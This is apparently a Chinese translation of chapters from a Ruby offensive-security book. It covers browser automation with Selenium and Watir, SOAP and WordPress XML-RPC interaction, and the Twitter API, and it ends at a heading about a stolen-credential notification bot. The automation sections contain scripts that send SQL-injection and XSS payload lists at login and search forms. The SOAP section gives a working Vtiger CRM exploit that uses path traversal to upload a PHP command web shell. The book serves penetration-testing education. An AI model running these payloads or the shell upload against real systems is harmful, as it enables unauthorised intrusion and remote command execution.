在这里，我们将学习如何让 Ruby 控制我们的浏览器，以**模拟**浏览器中的相同攻击并获得真实结果。

这项任务最常用的 API 是 ***Selenium*** 和 ***Watir***，它们支持目前已知的大多数网络浏览器。

## Selenium Webdriver

[**Selenium**](https://github.com/seleniumhq/selenium) 是一个总项目，封装了各种工具和库，实现了 Web 浏览器自动化。

+   安装 selenium gem

    ```
    gem install selenium-webdriver 
    ```

### GET 请求

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require "selenium-webdriver"

# Profile Setup and Tweak
proxy = Selenium::WebDriver::Proxy.new(
  :http     => PROXY,
  :ftp      => PROXY,
  :ssl      => PROXY
)       # Set Proxy hostname and port
profile = Selenium::WebDriver::Firefox::Profile.from_name "default"     # Use an existing profile name
profile['general.useragent.override'] = "Mozilla/5.0 (compatible; MSIE 9.0; " +
                                        "Windows Phone OS 7.5; Trident/5.0; " +
                                        "IEMobile/9.0)"                 # Set User Agent
profile.proxy = proxy                                                   # Set Proxy
profile.assume_untrusted_certificate_issuer = false                     # Accept untrusted SSL certificates

# Start Driver
driver = Selenium::WebDriver.for(:firefox, :profile => profile)         # Start firefox driver with specified profile
# driver = Selenium::WebDriver.for(:firefox, :profile => "default")     # Use this line if just need a current profile and no need to setup or tweak your profile
driver.manage.window.resize_to(500, 400)                                # Set Browser windows size
driver.navigate.to "http://www.altoromutual.com/search.aspx?"           # The URL to navigate

# Interact with elements
element = driver.find_element(:name, 'txtSearch')   # Find an element named 'txtSearch'
element.send_keys ""  # Send your keys to element
element.send_keys(:control, 't')                    # Open a new tab
element.submit                                      # Submit the text you've just sent 
```

> 请注意，发送的实际键取决于您的操作系统，例如，Mac 使用`COMMAND + t`，而不是`CONTROL + t`。

### POST 请求

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'selenium-webdriver'

browser = Selenium::WebDriver.for :firefox
browser.get "http://www.altoromutual.com/bank/login.aspx"

wait = Selenium::WebDriver::Wait.new(:timeout => 15)        # Set waiting timeout
# Find the input elements to interact with later.
input = wait.until {
  element_user = browser.find_element(:name, "uid")
  element_pass = browser.find_element(:name, "passw")
  # Retrun array of elements when get displayed
  [element_user, element_pass] if element_user.displayed? and element_pass.displayed?
}

input[0].send_keys("' or 1=1;--")   # Send key for the 1st element
input[1].send_keys("password")      # Send key fro the next element
sleep 1

# Click/submit the button based the form it is in (you can also call 'btnSubmit' method)
submit = browser.find_element(:name, "btnSubmit").click #.submit

# browser.quit 
```

让我们测试页面是否存在 XSS 漏洞。首先，我将列出我们需要浏览器执行的操作。

1.  打开一个浏览器窗口（Firefox）

1.  导航到一个 URL（altoromutual.com）

1.  执行一些操作（发送 XSS 负载）

1.  检查有效负载是否起作用（弹出）或者是误报

1.  在终端上打印成功的有效负载

**selenium-xss.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'selenium-webdriver'

payloads =
  [
    "<video src=x onerror=alert(1);>",
    "",
    "<script>alert(3)</script>",
    "<svg/OnlOad=prompt(4)>",
    "javascript:alert(5)",
    "alert(/6/.source)"
  ]

browser = Selenium::WebDriver.for :firefox                  # You can use :ff too
browser.manage.window.resize_to(500, 400)                   # Set browser size
browser.get "http://www.altoromutual.com/search.aspx?"

wait = Selenium::WebDriver::Wait.new(:timeout => 10)        # Timeout to wait

payloads.each do |payload|
  input = wait.until do
      element = browser.find_element(:name, 'txtSearch')
      element if element.displayed?
  end
  input.send_keys(payload)
  input.submit

  begin
    wait.until do
      txt = browser.switch_to.alert
      if (1..100) === txt.text.to_i
        puts "Payload is working: #{payload}"
        txt.accept
      end
    end
  rescue Selenium::WebDriver::Error::NoAlertOpenError
    puts "False Positive: #{payload}"
    next
  end

end

browser.close 
```

结果

```
> ruby selenium-xss.rb
Payload is working: <video src=x onerror=alert(1);>
Payload is working: 
Payload is working: <script>alert(3)</script>
Payload is working: <svg/OnlOad=prompt(4)>
False Positive: javascript:alert(5)
False Positive: alert(/6/.source) 
```

## Watir Webdriver

[**Watir**](http://watirwebdriver.com/) 是 (Web Application Testing in Ruby) 的缩写。我认为 Watir 比 Selenium 更优雅，但我喜欢知道完成同样任务的多种方式，以防万一。

+   安装 watir gem

    ```
    gem install watir 
    ```

### GET 请求

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'

browser = Watir::Browser.new :firefox
browser.goto "http://www.altoromutual.com/search.aspx?"
browser.text_field(name: 'txtSearch').set("")
btn = browser.button(value: 'Go')
puts btn.exists?
btn.click

# browser.close 
```

有时，您需要从 URL 发送 XSS GET 请求，例如`http://app/search?q=<script>alert</script>`。如果弹出了警报框，您将面临已知错误`Selenium::WebDriver::Error::UnhandledAlertError: Unexpected modal dialog`，但如果刷新页面以发送有效负载，它将起作用，因此解决此问题的方法如下。

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'

browser = Watir::Browser.new :firefox
wait = Selenium::WebDriver::Wait.new(:timeout => 15)

begin
    browser.goto("http://www.altoromutual.com/search.aspx?txtSearch=")
rescue Selenium::WebDriver::Error::UnhandledAlertError
    browser.refresh
    wait.until {browser.alert.exists?}
end

if browser.alert.exists?
  browser.alert.ok
  puts "[+] Exploit found!"
  browser.close
end 
```

### POST 请求

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'

browser = Watir::Browser.new :firefox
browser.window.resize_to(800, 600)
browser.window.move_to(0, 0)
browser.goto "http://www.altoromutual.com/bank/login.aspx"
browser.text_field(name: 'uid').set("' or 1=1;-- ")
browser.text_field(name: 'passw').set("password")
btn = browser.button(name: 'btnSubmit').click

# browser.close 
```

> +   由于 Waiter 与 Selenium 集成，您可以同时使用两者来实现一个目标
> +   
> +   由于某些情况下的某些登录情况，您可能需要在输入用户名和密码后添加延迟时间，然后再提交。

## Selenium、Watir 任意 POST 请求

这里我遇到的另一个场景是，我反对没有提交按钮的 POST 请求，换句话说，测试是针对从 jQuery 函数生成的拦截请求，我的情况是一个下拉菜单。因此，解决方法非常简单，只需创建一个包含原始参数加上**提交按钮**（***就像从 POST 表单创建 CSRF 利用一样***) 的 HTML 文件，然后将该 html 文件调用到浏览器中，并像处理正常表单一样处理它。让我们看一个例子。

**POST 请求**

```
POST /path/of/editfunction HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:40.0) Gecko/20100101 Firefox/40.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Cookie: PHPSESSIONID=111111111111111111111
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

field1=""&field2=""&field3=""&field4="" 
```

**example.html**

```
<html>
  <head>
    <title>Victim Site - POST request</title>
  </head>
  <body>
    <form action="https://example.com/path/of/editfunction" method="POST">
      <input type="text" name="field1" value="" />
      <input type="text" name="field2" value="" />
      <input type="text" name="field3" value="" />
      <input type="text" name="field4" value="" />
      <p><input type="submit" value="Send" /></p>
    </form>
  </body>
</html> 
```

**exploit.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'

@browser = Watir::Browser.new :firefox
@browser.window.resize_to(800, 600)     # Set browser size
@browser.window.move_to(400, 300)       # Allocate browser position

def sendpost(payload)
  @browser.goto "file:///home/KING/Code/example.html"

  @browser.text_field(name: 'field1').set(payload)
  @browser.text_field(name: 'field2').set(payload)
  @browser.text_field(name: 'field3').set(payload)
  @browser.text_field(name: 'field4').set(payload)
  sleep 0.1
  @browser.button(value: 'Send').click
end

payloads =
    [
      '"><script>alert(1)</script>',
      ''
    ]

puts "[*] Exploitation start"
puts "[*] Number of payloads: #{payloads.size} payloads"
payloads.each do |payload|
  print "\r[*] Trying: #{payload}"
  print "\e[K"
  sendpost payload

  if @browser.alert.exists?
    @browser.alert.ok
    puts "[+] Exploit found!: " + payload
    @browser.close
  end
end 
```

### 处理标签页

我遇到的一个场景是利用 XSS 用户配置字段，并在另一页中检查结果，该页面显示公共用户的配置文件。我不断地重新访问 URL，而是打开新标签页并刷新公共用户的配置文件页面，然后返回发送利用，依此类推。

**xss_tab.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'watir'
require 'uri'

@url = URI.parse "http://example.com/Users/User_Edit.aspx?userid=68"

@browser = Watir::Browser.new :firefox
@browser.window.resize_to(800, 600)
# @browser.window.move_to(540, 165)
@wait = Selenium::WebDriver::Wait.new(:timeout => 10)

@browser.goto "http://example.com/logon.aspx"

# Login
@browser.text_field(name: 'Login1$UserName').set("admin")
@browser.text_field(name: 'Login1$Password').set("P@ssword")
sleep 0.5
@browser.button(name: 'Login1$LoginButton').click

def sendpost(payload)
  begin

    @browser.switch                                                             # Make sure to focus on current tab/window
    @browser.goto "#{@url.scheme}://#{@url.host}/#{@url.path}?#{@url.query}"    # Goto the URL
    @wait.until {@browser.text_field(id: 'txtFullName').exists?}                # Wait until wanted text area appear
    @browser.text_field(id: 'txtFullName').set(payload)                         # Set payload to the text area
    @browser.text_field(id: 'txtFirstName').set(payload)                        # Set payload to the text area
    @browser.button(name: '$actionsElem$save').click                            # Click Save button

  rescue Selenium::WebDriver::Error::UnhandledAlertError
    @browser.refresh                            # Refresh the current page
    @wait.until {@browser.alert.exists?}        # Check if alert box appear
  end
end

payloads =
  [
    "\"><video src=x onerror=alert(1);>",
    "",
    "<script>alert(3)</script>",
    "<svg/OnlOad=prompt(4)>",
    "javascript:alert(5)",
    "alert(/6/.source)"
  ]

puts "[*] Exploitation start"
puts "[*] Number of payloads: #{payloads.size} payloads"

@browser.send_keys(:control, 't')                               # Sent Ctrl+T to open new tab
@browser.goto "http://example.com/pub_prof/user/silver.aspx"    # Goto the use's public profile
@browser.switch                                                 # Make sure to focus on current tab/window

payloads.each do |payload|

  @browser.send_keys(:alt, '1')                                     # Send Alt+1 to go to first tab
  sendpost payload
  puts "[*] Sending to '#{@browser.title}' Payload : #{payload}"
  @browser.send_keys(:alt, '2')                                     # Send Alt+2 to go to second tab
  @browser.switch
  @browser.refresh
  puts "[*] Checking Payload Result on #{@browser.title}"

  if @browser.alert.exists?
    @browser.alert.ok
    puts
    puts "[+] Exploit found!: " + payload
    @browser.close
    exit 0
  end

end

@browser.close
puts 
```

* * *

+   [Selenium 官方文档](http://docs.seleniumhq.org/docs/)

+   [Selenium Cheat Sheet](https://gist.github.com/kenrett/7553278)

+   [Selenium webdriver 与 Ruby 中的 Watir-webdriver](http://watirmelon.com/2011/05/05/selenium-webdriver-vs-watir-webdriver-in-ruby/)

+   [在 Ruby 中编写自动化测试脚本](https://www.browserstack.com/automate/ruby)

+   [Selenium WebDriver 和 Ruby](https://swdandruby.wordpress.com/)

+   [Selenium 指南 - 商业版](https://seleniumguidebook.com/)

+   [Watir WebDriver](http://watirwebdriver.com/)

+   [Watir Cheat Sheet](https://github.com/watir/watir/wiki/Cheat-Sheet)

# Web 服务和 API

# Web 服务和 API

Web Services 和 API 在我们日常使用的许多知名网站中变得越来越受欢迎和使用。为此，我想提供一些通用的定义，可能会使处理变得清晰。

## 技术定义

### API

应用程序编程接口（API）是由库和/或操作系统服务提供的一组例程、数据结构、对象类和/或协议，以支持应用程序的构建。

### Web 服务

Web 服务（也称为 Web 服务）由 W3C 定义为“设计用于支持网络上的可互操作的机器对机器交互的软件系统”。

### API 和 Web 服务之间的区别

1.  所有 Web 服务都是 API，但并非所有 API 都是 Web 服务。

1.  Web 服务可能无法执行 API 执行的所有操作。

1.  Web 服务仅使用三种使用方式：SOAP、REST 和 XML-RPC 进行通信，而 API 可以使用任何样式进行通信。

1.  Web 服务始终需要网络进行操作，而 API 不需要网络进行操作。

1.  API 有助于直接与应用程序进行接口，而 Web 服务通过网络与两台机器进行交互。

1.  Web 服务就像高级的 URL，而 API 是编程接口。

1.  API 包含类和接口，就像一个程序一样。

1.  Web 服务是 API（应用程序编程接口）的一种形式。

1.  API 被计算机程序员用来建立软件应用程序之间的链接。这种接口可以采用多种形式，Web 服务只是其中之一。

1.  有几种类型的 Web 服务。SOAP（简单对象访问协议）是最常见的之一。API 采用服务描述（WSDL）的形式，用于自动生成建立连接的程序代码。

* * *

+   [API 和 Web 服务之间的区别](http://microsoft-techies.blogspot.com/2014/03/difference-between-api-and-web-service.html)

+   [应用程序编程接口](https://en.wikipedia.org/wiki/Application_programming_interface)

+   [Web 服务](https://en.wikipedia.org/wiki/Web_service)

# 与 Web 服务交互

# 与 Web 服务交互

### SOAP - WSDL

一般来说，处理 SOAP 意味着处理 XML 消息和描述如何使用给定 SOAP API 的 WSDL 文件（也是 XML）。Ruby 有一种非常优雅的方式来做到这一点，让我们用一个漏洞来动手实践一下

+   安装 wasabi、sabvon 和 httpclient 宝石

    ```
    gem install wasabi savon httpclient 
    ```

#### 枚举

```
require 'wasabi'

url = "http://www.webservicex.net/CurrencyConvertor.asmx?WSDL"

document = Wasabi.document url

# Parsing the document
document.parser

# SOAP XML
document.xml

# Getting the endpoint
document.endpoint

# Getting the target namespace
document.namespace

# Enumerate all the SOAP operations/actions
document.operations

# Enumerate input parameters for particular operation
document.operation_input_parameters :conversion_rate

# Enumerate all available currencies
document.parser.document.element_children.children[1].children[1].children[3].children[1].children.map {|c| c.attributes.values[0].to_s} 
```

结果

```
>> url = "http://www.webservicex.net/CurrencyConvertor.asmx?WSDL"
=> "http://www.webservicex.net/CurrencyConvertor.asmx?WSDL"
>> document = Wasabi.document url
=> #<Wasabi::Document:0x00000002c79a50 @adapter=nil, @document="http://www.webservicex.net/CurrencyConvertor.asmx?WSDL">
>> # Parsing the document
>> document.parser
=> #<Wasabi::Parser:0x0000000281ebb8
 @deferred_types=[],
 @document=
  #(Document:0x140fa3c {
    name = "document",
    children = [
      #(Element:0x140f294 {
        name = "definitions",
        namespace = #(Namespace:0x14017e8 { prefix = "wsdl", href = "http://schemas.xmlsoap.org/wsdl/" }),
        attributes = [ #(Attr:0x1a507d4 { name = "targetNamespace", value = "http://www.webserviceX.NET/" })],
        children = [
          #(Text "\n  "),
---kipped---
>> # Getting the endpoint
>> document.endpoint
=> #<URI::HTTP http://www.webservicex.net/CurrencyConvertor.asmx>
>> # Getting the target namespace
>> document.namespace
=> "http://www.webserviceX.NET/"
>> # Enumerate all the SOAP operations/actions
>> document.operations
=> {:conversion_rate=>
  {:action=>"http://www.webserviceX.NET/ConversionRate",
   :input=>"ConversionRate",
   :output=>"ConversionRateResponse",
   :namespace_identifier=>"tns",
   :parameters=>{:FromCurrency=>{:name=>"FromCurrency", :type=>"Currency"}, :ToCurrency=>{:name=>"ToCurrency", :type=>"Currency"}}}}
>> # Enumerate input parameters for particular operation
>> document.operation_input_parameters :conversion_rate
=> {:FromCurrency=>{:name=>"FromCurrency", :type=>"Currency"}, :ToCurrency=>{:name=>"ToCurrency", :type=>"Currency"}} 
```

#### 互动

```
require 'savon'

url = "http://www.webservicex.net/CurrencyConvertor.asmx?WSDL"
client = Savon.client(wsdl: url)

message = {'FromCurrency' => 'EUR', 'ToCurrency' => 'CAD'}
response = client.call(:conversion_rate, message: message).body

response[:conversion_rate_response][:conversion_rate_result] 
```

结果

```
>> message = {'FromCurrency' => 'EUR', 'ToCurrency' => 'CAD'}
=> {"FromCurrency"=>"EUR", "ToCurrency"=>"CAD"}
>> response = client.call(:conversion_rate, message: message).body
=> {:conversion_rate_response=>{:conversion_rate_result=>"1.4417", :@xmlns=>"http://www.webserviceX.NET/"}}

1.4415 
```

#### 通过 SOAP 漏洞进行黑客攻击

这是一个针对 Vtiger CRM SOAP 的工作利用，从绕过认证到上传 shell

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# gem install savon httpclient
#
require 'savon'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} [WSDL URL]"
  exit 0
else
  url = ARGV[0]
end

shell_data, shell_name = "<?php system($_GET['cmd']); ?>", "shell-#{rand(100)}.php"

# Start client
client = Savon::Client.new(wsdl: url)

# List all available operations
puts "[*] List all available operations "
puts client.operations

puts "\n\n[*] Interact with :add_email_attachment operation"
response = client.call( :add_email_attachment,
                        message: {
                                     emailid:  rand(100),
                                     filedata: [shell_data].pack("m0"),
                                     filename: "../../../../../../#{shell_name}",
                                     filesize: shell_data.size,
                                     filetype: "php",
                                     username: "KING",
                                     sessionid: nil
                                }
                      )
puts "[+] PHP Shell on:  http://#{URI.parse(url).host}/vtigercrm/soap/#{shell_name}?cmd=id" 
```

更多关于[Savon](http://savonrb.com/)的内容

* * *

# 与 API 交互

# 与 API 交互

API 有各种结构与其同行进行交互。

**StackExchange API**

```
require 'http'

json_res = JSON.parse(Net::HTTP.get(URI.parse "http://api.stackexchange.com/2.2/questions?site=stackoverflow")) 
```

**IPify API**

```
require 'open-uri'
require 'json'
JSON.parse(open('https://api.ipify.org?format=json').read)["ip"] 
```

# WordPress API

# WordPress API

Ruby 有一个名为`xmlrpc`的[标准库](http://ruby-doc.org/stdlib-2.2.3/libdoc/xmlrpc/rdoc/XMLRPC/Client.html)，它负责处理所有 xmlrpc 的事情，甚至可以使用它创建一个 XML-RPC 服务器。让我们来看一个真实的例子

寻找真正知名支持 XML-RPC 的应用程序，当然 WordPress 是第一个参与者。

那么我们想要做什么呢？

+   与 WordPress 打个招呼

+   列出所有可用方法

+   列出所有可用用户

+   列出所有可用帖子

+   创建一个新帖子！

+   检索我们创建的帖子

+   列出我们创建的帖子上的所有评论

```
require 'xmlrpc/client'

opts =
    {
        host: '172.17.0.2',
        path: '/xmlrpc.php',
        port: 80,
        proxy_host: nil,
        proxy_port: nil,
        user: 'admin',
        password: '123123',
        use_ssl: false,
        timeout: 30
    }

# Create a new instance 
server = XMLRPC::Client.new(
    opts[:host], opts[:path], opts[:port],
    opts[:proxy_host], opts[:proxy_port],
    opts[:user], opts[:password],
    opts[:use_ssl], opts[:timeout]
)

# Create a new instance takes a hash
server = XMLRPC::Client.new3(opts)

# Say hello to WordPress
response = server.call("demo.sayHello")

# List all available methods
server.call('system.listMethods', 0)

# List all available users
server.call('wp.getAuthors', 0, opts[:user], opts[:password])

# List all available post
response = server.call('wp.getPosts', 0, opts[:user], opts[:password])

# Create a new post!
post =
    {
        "post_title"     => 'Rubyfu vs WP XML-RPC',
        "post_name"      => 'Rubyfu vs WordPress XML-RPC',
        "post_content"   => 'This is Pragmatic Rubyfu Post. Thanks for reading',
        "post_author"    => 2,
        "post_status"    => 'publish',
        "comment_status" => 'open'
    }
response = server.call("wp.newPost", 0, opts[:user], opts[:password], post)

# Retrieve created post
response =  server.call('wp.getPosts', 0, opts[:user], opts[:password], {"post_type" => "post", "post_status" => "published", "number" => "2", "offset" => "2"})

# List all comments on a specific post
response =  server.call('wp.getComments', 0, opts[:user], opts[:password], {"post_id" => 4}) 
```

结果

```
>> # Say hello to WordPress
>> response = server.call("demo.sayHello")
=> "Hello!"
>> 
>> # List all available methods
>> server.call('system.listMethods', 0)
=> ["system.multicall",
 "system.listMethods",
 "system.getCapabilities",
 "demo.addTwoNumbers",
 "demo.sayHello",
 "pingback.extensions.getPingbacks",
 "pingback.ping",
 "mt.publishPost",
 "mt.getTrackbackPings",
 "mt.supportedTextFilters",
 ...skipping...
 "metaWeblog.newMediaObject",
 "metaWeblog.getCategories",
 "metaWeblog.getRecentPosts",
 "metaWeblog.getPost",
 "metaWeblog.editPost",
 "metaWeblog.newPost",
 ...skipping...
 "blogger.deletePost",
 "blogger.editPost",
 "blogger.newPost",
 "blogger.getRecentPosts",
 "blogger.getPost",
 "blogger.getUserInfo",
 "blogger.getUsersBlogs",
 "wp.restoreRevision",
 "wp.getRevisions",
 "wp.getPostTypes",
 "wp.getPostType",
 ...skipping...
 "wp.getPost",
 "wp.deletePost",
 "wp.editPost",
 "wp.newPost",
 "wp.getUsersBlogs"]
>> 
>> # List all available users
>> server.call('wp.getAuthors', 0, opts[:user], opts[:password])
=> [{"user_id"=>"1", "user_login"=>"admin", "display_name"=>"admin"}, {"user_id"=>"3", "user_login"=>"galaxy", "display_name"=>"Galaxy"}, {"user_id"=>"2", "user_login"=>"Rubyfu", "display_name"=>"Rubyfu"}]
>> 
>> # List all available post
>> response = server.call('wp.getPosts', 0, opts[:user], opts[:password])
=> [{"post_id"=>"4",
  "post_title"=>"Rubyfu vs WP XMLRPC",
  "post_date"=>#<XMLRPC::DateTime:0x0000000227f3b0 @day=1, @hour=19, @min=44, @month=11, @sec=31, @year=2015>,
  "post_date_gmt"=>#<XMLRPC::DateTime:0x0000000227d178 @day=1, @hour=19, @min=44, @month=11, @sec=31, @year=2015>,
  "post_modified"=>#<XMLRPC::DateTime:0x000000021d6ee0 @day=1, @hour=19, @min=52, @month=11, @sec=25, @year=2015>,
  "post_modified_gmt"=>#<XMLRPC::DateTime:0x000000021d4ca8 @day=1, @hour=19, @min=52, @month=11, @sec=25, @year=2015>,
  "post_status"=>"publish",
  "post_type"=>"post",
  "post_name"=>"rubyfu-vs-wordpress-xmlrpc",
  "post_author"=>"2",
  "post_password"=>"",
  "post_excerpt"=>"",
  "post_content"=>"This is Pragmatic Rubyfu Post. Thanks for reading",
  "post_parent"=>"0",
  "post_mime_type"=>"",
  "link"=>"http://172.17.0.2/2015/11/01/rubyfu-vs-wordpress-xmlrpc/",
  "guid"=>"http://172.17.0.2/?p=4",
  "menu_order"=>0,
  "comment_status"=>"open",
  "ping_status"=>"open",
  "sticky"=>false,
  "post_thumbnail"=>[],
  "post_format"=>"standard",
  "terms"=>
   [{"term_id"=>"1", "name"=>"Uncategorized", "slug"=>"uncategorized", "term_group"=>"0", "term_taxonomy_id"=>"1", "taxonomy"=>"category", "description"=>"", "parent"=>"0", "count"=>2, "filter"=>"raw"}],
  "custom_fields"=>[]},
 {"post_id"=>"1",
  "post_title"=>"Hello world!",
  "post_date"=>#<XMLRPC::DateTime:0x00000002735580 @day=1, @hour=17, @min=54, @month=11, @sec=14, @year=2015>,
  "post_date_gmt"=>#<XMLRPC::DateTime:0x0000000226b130 @day=1, @hour=17, @min=54, @month=11, @sec=14, @year=2015>,
  "post_modified"=>#<XMLRPC::DateTime:0x00000002268de0 @day=1, @hour=17, @min=54, @month=11, @sec=14, @year=2015>,
  "post_modified_gmt"=>#<XMLRPC::DateTime:0x000000021aea58 @day=1, @hour=17, @min=54, @month=11, @sec=14, @year=2015>,
  "post_status"=>"publish",
  "post_type"=>"post",
  "post_name"=>"hello-world",
  "post_author"=>"1",
  "post_password"=>"",
  "post_excerpt"=>"",
  "post_content"=>"Welcome to WordPress. This is your first post. Edit or delete it, then start writing!",
  "post_parent"=>"0",
  "post_mime_type"=>"",
  "link"=>"http://172.17.0.2/2015/11/01/hello-world/",
  "guid"=>"http://172.17.0.2/?p=1",
  "menu_order"=>0,
  "comment_status"=>"open",
  "ping_status"=>"open",
  "sticky"=>false,
  "post_thumbnail"=>[],
  "post_format"=>"standard",
  "terms"=>
   [{"term_id"=>"1", "name"=>"Uncategorized", "slug"=>"uncategorized", "term_group"=>"0", "term_taxonomy_id"=>"1", "taxonomy"=>"category", "description"=>"", "parent"=>"0", "count"=>2, "filter"=>"raw"}],
  "custom_fields"=>[]}]
>> 
>> # Create a new post!
>> post =
 | {    
 |   "post_title"     => 'Rubyfu vs WP XML-RPC',        
 |   "post_name"      => 'Rubyfu vs WordPress XML-RPC',        
 |   "post_content"   => 'This is Pragmatic Rubyfu Post. Thanks for reading',        
 |   "post_author"    => 2,        
 |   "post_status"    => 'publish',        
 |   "comment_status" => 'open'        
 | }      
=> {"post_title"=>"Rubyfu vs WP XML-RPC",
 "post_name"=>"Rubyfu vs WordPress XML-RPC",
 "post_content"=>"This is Pragmatic Rubyfu Post. Thanks for reading",
 "post_author"=>2,
 "post_status"=>"publish",
 "comment_status"=>"open"}
>> response = server.call("wp.newPost", 0, opts[:user], opts[:password], post)
=> "7"
>> # Retrieve created post
>> response =  server.call('wp.getPosts', 0, opts[:user], opts[:password], {"post_type" => "post", "post_status" => "published", "number" => "2", "offset" => "2"})
=> [{"post_id"=>"3",
  "post_title"=>"Auto Draft",
  "post_date"=>#<XMLRPC::DateTime:0x0000000225bcd0 @day=1, @hour=19, @min=22, @month=11, @sec=29, @year=2015>,
  "post_date_gmt"=>#<XMLRPC::DateTime:0x00000002259a98 @day=1, @hour=19, @min=22, @month=11, @sec=29, @year=2015>,
  "post_modified"=>#<XMLRPC::DateTime:0x0000000256b808 @day=1, @hour=19, @min=22, @month=11, @sec=29, @year=2015>,
  "post_modified_gmt"=>#<XMLRPC::DateTime:0x000000025695d0 @day=1, @hour=19, @min=22, @month=11, @sec=29, @year=2015>,
  "post_status"=>"auto-draft",
  "post_type"=>"post",
  "post_name"=>"",
  "post_author"=>"1",
  "post_password"=>"",
  "post_excerpt"=>"",
  "post_content"=>"",
  "post_parent"=>"0",
  "post_mime_type"=>"",
  "link"=>"http://172.17.0.2/?p=3",
  "guid"=>"http://172.17.0.2/?p=3",
  "menu_order"=>0,
  "comment_status"=>"open",
  "ping_status"=>"open",
  "sticky"=>false,
  "post_thumbnail"=>[],
  "post_format"=>"standard",
  "terms"=>[],
  "custom_fields"=>[]},
 {"post_id"=>"1",
  "post_title"=>"Hello world!",
  "post_date"=>#<XMLRPC::DateTime:0x00000002617298 @day=1, @hour=17, @min=54, @month=11, @sec=14, @year=2015>,
  "post_date_gmt"=>#<XMLRPC::DateTime:0x00000002615038 @day=1, @hour=17, @min=54, @month=11, @sec=14, @year=2015>,
  "post_modified"=>#<XMLRPC::DateTime:0x000000025e6d28 @day=1, @hour=17, @min=54, @month=11, @sec=14, @year=2015>,
  "post_modified_gmt"=>#<XMLRPC::DateTime:0x000000025e4aa0 @day=1, @hour=17, @min=54, @month=11, @sec=14, @year=2015>,
  "post_status"=>"publish",
  "post_type"=>"post",
  "post_name"=>"hello-world",
  "post_author"=>"1",
  "post_password"=>"",
  "post_excerpt"=>"",
  "post_content"=>"Welcome to WordPress. This is your first post. Edit or delete it, then start writing!",
  "post_parent"=>"0",
  "post_mime_type"=>"",
  "link"=>"http://172.17.0.2/2015/11/01/hello-world/",
  "guid"=>"http://172.17.0.2/?p=1",
  "menu_order"=>0,
  "comment_status"=>"open",
  "ping_status"=>"open",
  "sticky"=>false,
  "post_thumbnail"=>[],
  "post_format"=>"standard",
  "terms"=>
   [{"term_id"=>"1", "name"=>"Uncategorized", "slug"=>"uncategorized", "term_group"=>"0", "term_taxonomy_id"=>"1", "taxonomy"=>"category", "description"=>"", "parent"=>"0", "count"=>3, "filter"=>"raw"}],
  "custom_fields"=>[]}]
...skipping...
  "post_format"=>"standard",
  "terms"=>[],
  "custom_fields"=>[]},
 {"post_id"=>"1",
  "post_title"=>"Hello world!",
  "post_date"=>#<XMLRPC::DateTime:0x00000002617298 @day=1, @hour=17, @min=54, @month=11, @sec=14, @year=2015>,
  "post_date_gmt"=>#<XMLRPC::DateTime:0x00000002615038 @day=1, @hour=17, @min=54, @month=11, @sec=14, @year=2015>,
  "post_modified"=>#<XMLRPC::DateTime:0x000000025e6d28 @day=1, @hour=17, @min=54, @month=11, @sec=14, @year=2015>,
  "post_modified_gmt"=>#<XMLRPC::DateTime:0x000000025e4aa0 @day=1, @hour=17, @min=54, @month=11, @sec=14, @year=2015>,
  "post_status"=>"publish",
  "post_type"=>"post",
  "post_name"=>"hello-world",
  "post_author"=>"1",
  "post_password"=>"",
  "post_excerpt"=>"",
  "post_content"=>"Welcome to WordPress. This is your first post. Edit or delete it, then start writing!",
  "post_parent"=>"0",
  "post_mime_type"=>"",
  "link"=>"http://172.17.0.2/2015/11/01/hello-world/",
  "guid"=>"http://172.17.0.2/?p=1",
  "menu_order"=>0,
  "comment_status"=>"open",
  "ping_status"=>"open",
  "sticky"=>false,
  "post_thumbnail"=>[],
  "post_format"=>"standard",
  "terms"=>
   [{"term_id"=>"1", "name"=>"Uncategorized", "slug"=>"uncategorized", "term_group"=>"0", "term_taxonomy_id"=>"1", "taxonomy"=>"category", "description"=>"", "parent"=>"0", "count"=>3, "filter"=>"raw"}],
  "custom_fields"=>[]}] 
```

这是新的帖子！

来源：[如何使用 Ruby 通过 XML-RPC 编程控制 WordPress](http://notes.jerzygangi.com/how-to-programatically-control-wordpress-with-ruby-using-xml-rpc/)

更多关于[WordPress XML-RPC](http://notes.jerzygangi.com/how-to-programatically-control-wordpress-with-ruby-using-xml-rpc/)的内容

* * *

# Twitter API

# Twitter API

处理 Twitter 的 API 对于信息收集、分类和社会工程非常有用。然而，您必须拥有一些密钥和令牌才能与 Twitter 的 API 进行交互。要做到这一点，请参考官方的[Twitter 开发页面](https://dev.twitter.com/oauth/overview)。

+   安装 Twitter API 宝石

    ```
    gem install twitter 
    ```

## 基本用法

**rubyfu-tweet.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'twitter'
require 'pp'

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end

puts client.user("Rubyfu")                   # Fetch a user
puts client.update("@Rubyfu w00t! #Rubyfu")  # Tweet (as the authenticated user)
puts client.follow("Rubyfu")                 # Follow User (as the authenticated user)
puts client.followers("Rubyfu")              # Fetch followers of a user
puts client.followers                        # Fetch followers of current user
puts client.status(649235138585366528)       # Fetch a particular Tweet by ID
puts client.create_direct_message("Rubyfu", "Hi, I'm KINGSABRI")    # Send direct message to a particular user 
```


**轮到你了**，使用上面的例子向@Rubyfu 发推文。将您的代码和输出推文给**@Rubyfu**。

## 构建被盗凭证通知机器人

